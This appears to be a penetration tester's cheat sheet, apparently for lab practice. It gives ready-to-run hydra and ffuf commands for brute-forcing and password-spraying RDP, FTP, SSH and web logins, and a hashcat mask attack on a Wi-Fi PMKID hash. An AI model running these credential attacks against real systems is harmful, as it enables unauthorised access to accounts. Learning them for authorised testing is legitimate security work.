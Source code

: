 Always try username as password
Always try reverted-username as password

# Brute forcing RDP with hydra

```bash
hydra -l user -P rockyou.txt rdp://192.168.50.202
```

---

# Brute forcing FTP with hydra

```bash
hydra -l itadmin -I -P rockyou.txt -s 21 ftp://192.168.247.202
hydra -s 24621 -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -u -f 192.168.200.226 ftp
```

---

# Brute forcing SSH with hydra

```bash
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```

---

# Brute forcing HTTP POST login with hydra and FUFF

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
hydra -I -f -L wordlist.txt -P wordlist.txt 'http-post-form://192.168.159.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'

# Grab request from burp and change username with USERFUZZ and password with PASSFUZZ
ffuf -request request.txt -request-proto http -mode clusterbomb -w users.txt:USERFUZZ -w passwords.txt:PASSFUZZ -mc 200
```

---

# Brute forcing HTTP GET login with hydra

```bash
 hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.244.191 http-get /
```

---

# Password spraying RDP with hydra

```bash
hydra -L users.txt -p "SuperS3cure1337#" rdp://192.168.247.202
```

---

# Hashcat bruteforcing

    ?l = abcdefghijklmnopqrstuvwxyz
    ?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
    ?d = 0123456789
    ?h = 0123456789abcdef
    ?H = 0123456789ABCDEF
    ?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
    ?a = ?l?u?d?s
    ?b = 0x00 - 0xff

hashcat -m 22000 -a 3 pmkid_H369AAAEBF4_88-D2-74-AA-EB-F4_2024-01-01T16-00-05.22000 ?l?l?l?l?l?l?l --force
